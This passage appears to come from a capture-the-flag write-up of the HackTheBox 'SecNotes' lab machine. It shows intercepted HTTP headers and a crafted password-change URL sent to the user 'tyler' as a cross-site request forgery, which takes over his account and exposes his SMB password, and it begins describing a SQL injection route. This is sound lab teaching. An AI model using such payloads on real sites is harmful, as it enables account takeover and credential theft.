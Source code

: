 ```
Origin: http://secnotes.htb
Connection: keep-alive
Referer: http://secnotes.htb/change_pass.php
Cookie: PHPSESSID=34ldt1oc1uaso1s4m0o7v513gu
Upgrade-Insecure-Requests: 1
```

```
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Location: home.php
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.2.7
Date: Tue, 10 Dec 2024 04:32:34 GMT
Content-Length: 1284
```
Right click and `Copy URL` and send this to the user `tyler` via the `Contact Us` Page.
`http://secnotes.htb/change_pass.php?password=asdf321&confirm_password=asdf321&submit=submit`

Now you should be able to login with `tyler` account and password `asdf321`
![](SecNotes_Web3.png)

Once logged in, it reveals the SMB password for the user tyler.
### SQL_Injection
So in the above method, We sign up and created an account `asdf` than reset the tyler's password using the `Contact Us` Page. however, There;s another way to grab the tyler's SMB password without even sending any links through the Contact Us page. We can create a new account with the following name.
![](SecNotes_Web4.png)
